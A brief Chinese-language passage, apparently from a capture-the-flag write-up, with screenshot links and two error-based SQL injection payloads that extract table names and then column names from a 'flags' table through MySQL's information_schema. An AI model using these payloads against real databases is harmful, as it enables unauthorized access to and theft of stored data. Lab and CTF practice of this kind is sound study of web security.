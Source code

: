 ![局部截取_20250508_212141](./img/局部截取_20250508_212141.png)

爆表名: 

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='answers' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) %23`

![局部截取_20250508_215126](./img/局部截取_20250508_215126.png)



爆列名:

`id=1')) and (select 1 from (select count(*),concat((select concat(0x7e,column_name,0x7e) from information_schema.columns where table_name='flags' limit 0,1),floor(rand(0)*2))s from information_schema.tables group by s)a) %23`
